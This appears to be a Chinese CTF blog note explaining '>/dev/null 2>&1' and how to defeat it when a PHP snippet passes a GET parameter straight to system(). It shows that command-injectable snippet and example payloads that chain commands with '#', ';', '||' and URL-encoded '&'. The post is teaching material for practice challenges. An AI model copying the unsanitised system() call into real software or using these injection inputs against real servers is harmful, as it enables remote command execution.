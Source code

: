 ```yaml
---
title: 重定向黑洞>/dev/null
date: 2024-05-15 21:53:24
permalink: /pages/ce50e0/
categories:
  - linux
tags:
  - 重定向
author: 
  name: Cola
  link: https://the0n3.top
---
```



# 重定向黑洞

分析`>/dev/null 2>&1`：

- \>：将标准输出重定向
- /dev/null：一个“黑洞”，用于丢弃数据。
- 2>&1：将标准错误（文件描述符2）重定向到标准输出（文件描述符1），即把错误输出和正常输出都导向/dev/null

因此，这个命令的整体效果是，运行命令时，不会在终端上看到任何输出或错误信息。这个技巧常用于需要静默运行的脚本或命令。

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}
```

> system($c." >/dev/null 2>&1");

system执行$c的终端命令 **">/dev/null 2>&1"** 加上这句后，执行命令但无回显

解决方案：

## 注释

emm,很简单的一个姿势

```bash
ctf@ubuntu:~$ ls
1.txt
ctf@ubuntu:~$ ls # >/dev/null 2>&1
1.txt
```

## 一次执行多条命令

> 在Linux命令行中，分号（;）、竖线（|）、双竖线（||）、和符号（&）以及双与符号（&&）有不同的作用：

在linux终端中，一次是可以执行多个命令的，例如`pwd;ls;`，通过这些分隔符，可以分割多个命令

可以通过拼接，实现类似`cat flag;ls`，拼接到php里后，就是`cat flag;ls >/dev/null 2>&1`，这样第二条命令没有回显，第一条不受影响

```bash
分号（;）：用于分隔多个命令，依次执行每个命令，不管前面的命令是否成功。          例如：?c=ls;pwd;  
竖线（|）：管道符号，用于将一个命令的输出传递给另一个命令作为输入。             # 测试失败
双竖线（||）：逻辑或运算符，用于在第一个命令失败时执行第二个命令。              例如：?c=ls||
和符号（&）：在命令末尾使用表示在后台执行该命令。                              例如：?c=pwd%26
双与符号（&&）：逻辑与运算符，用于只有在第一个命令成功执行后才执行第二个命令。   例如：?c=pwd%26%26  
```


::: tip
请注意：**其中在使用GET传值时，&和&&都需要进行url编码**  
:::


因此，在这里使用GET给$c传值时，加入这些**用于控制终端命令分隔符**的符号，一次执行多条命令，在一条命令结果被吞掉时不至于影响到其他命令